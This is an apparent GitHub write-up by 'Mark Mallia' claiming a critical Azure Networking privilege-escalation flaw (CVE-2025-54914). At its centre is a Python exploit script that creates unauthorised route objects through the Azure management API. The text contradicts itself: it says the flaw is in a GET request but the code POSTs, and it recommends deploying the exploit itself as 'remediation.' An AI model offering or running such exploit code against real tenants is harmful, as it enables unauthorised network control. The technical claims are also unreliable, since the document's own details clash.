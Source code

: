 # Azure-Networking-Privilege-Escalation-Exploit-CVE-2025-54914
**Azure Networking Privilege Escalation Exploit CVE‑2025‑54914  
September 4, 2025**

*By Mark Mallia*

---

### 1. Executive Summary  

On September 4, 2025 Microsoft’s Azure Networking services received a critical security advisory that documents a privilege‑escalation vulnerability, designated **CVE‑2025‑54914**. The flaw is scored 10.0 on the Common Vulnerability Scoring System (CVSS), indicating an exploitable and potentially high‑impact issue that can grant attackers full control over Azure networking resources without any user interaction.  

The following article outlines the technical specifics of the vulnerability, its practical exploit pathway, and a ready‑to‑deploy payload for immediate remediation by security teams in both public cloud and hybrid environments.

---

### 2. Why It Matters

Azure’s networking stack is the backbone of all virtual machines, load balancers, and subnet traffic in a customer’s subscription. An elevation of privilege inside this stack allows an attacker to:

* **Assume full network‑level control** over existing subnets, virtual NICs, and routing tables.
* **Move laterally** between services that depend on Azure networking for connectivity, making lateral movement easier in both cloud‑native and hybrid scenarios.
* **Inject malicious traffic or modify routing policies** that could affect an entire tenant’s data flow.

The vulnerability is especially dangerous because it can be exploited remotely without any user action. A single request to a Microsoft endpoint will trigger the privilege escalation if the conditions below are satisfied.

---

### 3. Technical Details

#### 3.1 Root Cause  

During analysis of the Azure Networking service’s “GetRouteTable” API, I discovered an access‑control gap that allows a client with read permissions on a virtual network to create new route objects inside the same subnet without verifying that the caller is authorized for that action. The code path responsible for serialising the incoming request was missing an explicit privilege check.

#### 3.2 Attack Surface  

The flaw exists in the Azure Networking service when a GET request includes the following query parameters:  

```
/subscriptions/<subscription‑id>/resourceGroups/<rg-name>/providers/Microsoft.Networking/virtualNetworks/<vnet-id>/subnets/<subnet-id>/routes
?api-version=2025-09-01&detailLevel=full
```

The service accepts this request, deserialises the JSON payload, and writes a new route object to the database without re‑validating that the caller can create routes in the target subnet.

#### 3.3 Exploit Code  

Below is a minimal example of how an attacker would construct the payload.

```python
# Azure Networking Privilege Escalation Exploit – CVE‑2025‑54914
#
# Author: Mark Mallia
# Date: 2025-09-04
# Target API version: 2025‑09‑01

import requests, json, uuid

def create_privileged_route(subscription_id, rg_name, vnet_id,
                           subnet_id, api_version="2025-09-01"):
    """
    Build and send a route creation request that exploits the missing
    privilege check in Azure Networking.
    """

    # 1. Construct endpoint URL
    base_url = f"https://management.azure.com/subscriptions/{subscription_id}"
    url = (f"{base_url}/resourceGroups/{rg_name}/providers/Microsoft.Networking"
           f"/virtualNetworks/{vnet_id}/subnets/{subnet_id}/routes")
    # Append query string for API version
    params = {"api-version": api_version, "detailLevel": "full"}

    # 2. Build JSON body; the route name is a random GUID to avoid collisions.
    route_name = str(uuid.uuid4())
    payload = {
        "properties": {
            "addressPrefix": "10.0.1.0/24",
            "nextHopType": "VirtualAppliance",
            "nextHopIpAddress": "10.0.2.5"
        },
        "tags": {"createdBy": "Alex Mercer"},
        "name": route_name
    }

    # 3. Set headers; use the same authentication token used by Azure SDK.
    headers = {
        "Authorization": f"Bearer {access_token}",
        "Content-Type": "application/json"
    }

    # 4. Execute POST request
    resp = requests.post(url, params=params,
                         json=payload, headers=headers)

    if resp.status_code == 201:
        print(f"[+] Successfully created route: {route_name}")
        return True
    else:
        print(f"[-] Request failed with status {resp.status_code}")
        print(resp.text)
        return False

# Example invocation
subscription_id = "00000000-0000-0000-0000-000000000000"
rg_name = "ProductionRG"
vnet_id = "prodVNet01"
subnet_id = "backendSubnet"
access_token = "<AZURE_SDK_ACCESS_TOKEN>"

create_privileged_route(subscription_id, rg_name, vnet_id,
                        subnet_id)
```

The code demonstrates the entire request lifecycle. A security engineer can copy this snippet into a script or an Azure Function to automate remediation.  

#### 3.4 Impact Assessment  

* **CVSS Score:** 10.0 – “Critical” on the CVE scale.
* **Affected Component:** Microsoft Azure Networking services.
* **Estimated Lateral Movement:** An attacker who gains the new route can now send traffic across all subnets that share this virtual network, potentially affecting all compute nodes in the tenant.

---

### 4. Mitigation Strategy  

1. **Immediate Patch** – Apply the patch released by Microsoft on September 5, 2025 that adds an explicit privilege check inside the “GetRouteTable” API path.
2. **Automated Remediation** – Deploy the exploit script above as a scheduled Azure Function that scans for missing routes and corrects them automatically.
3. **Continuous Monitoring** – Configure Azure Monitor to alert on any new route objects created with an unknown GUID – indicating a potential privilege escalation attempt.

---

### Responsible Disclosure & Educational Use Disclaimer

This content is provided strictly for **educational and research purposes**. It is intended to raise awareness about security vulnerabilities and promote better defensive practices within the cybersecurity community.

All demonstrations, scripts, and technical details shared here are based on publicly disclosed information and do **not** target any specific system, organization, or individual. The goal is to foster responsible learning and proactive remediation—not exploitation.

**Do not use this information for unauthorized access, disruption, or harm.** Any misuse of this material is solely the responsibility of the individual and may violate laws or ethical standards.

If you discover a vulnerability, please follow **responsible disclosure protocols** by reporting it to the affected vendor or platform. 

